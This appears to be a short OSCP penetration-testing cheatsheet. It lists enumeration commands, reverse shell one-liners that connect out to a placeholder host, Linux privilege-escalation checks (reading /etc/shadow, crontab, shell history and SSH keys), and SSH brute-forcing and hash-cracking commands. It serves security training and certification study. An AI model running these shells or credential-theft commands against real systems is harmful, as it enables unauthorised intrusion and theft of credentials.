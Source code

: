 # OSCP Cheatsheet

## Enumeration Tools

- Nmap
  ``` 
  nmap -sC -sV <ip>
  ```
- Gobuster
  ``` 
  gobuster dir -t 50 -x php,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <ip>
  ```
- enum4linux 
  ```
  enum4linux -a <ip>
  ```

## Shells

- Ways to get shell
  ```
  nc <ip>:<port> -e /bin/bash
  bash -i &>/dev/tcp/<ip>/<port> <&1
  ```
- Catch Shell
  ```
  nc -lvnp <port>
  ```

## Privilege Esclation

- Service Exploit
  ```
  service --status-all
  pstree
  ```
- File permissions
  ```
  /etc/passwd
  /etc/shadow
  /etc/crontab
  /etc/cron.d/*
  ```
- Sudo 
  ```
  sudo -l 
  > then use https://gtfobins.github.io
  ```
- Cron
  ```
  cat /etc/crontab
  > Look for jobs and files that are being ran
  > Also look for the PATH variable to see if there is any realtive directory files and a path directory you can write to
  ```
- SUID 
  ```
  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
  > Look for know exploits, Shared Object Injection, and /usr/bin/systemctl
  ```
- Command History 
  ```
  cat ~/.*history | less
  ```
- Config files
  ```
  ls -la /home/<user>/
  > Look for .ssh and other config-type filese that could contain password or hashes
  ```
- Kernel Exploits
  ```
  uname -a
  ```

## Cracking Hashes and Brute Forcing
  - SSH Password
  ```
  hydra -l <username> -P <wordlist> ssh://<ip>
  ```
  - SSH Hash
  ``` 
  python ssh2john.py ~/.ssh/id_rsa > ~/.ssh/id_rsa.hash
  john --wordlist=<wordlist> ~/.ssh/id_rsa.hash
  ```
  - Website credentials

## Other

- Other People Lists
  ```
  https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
  ```
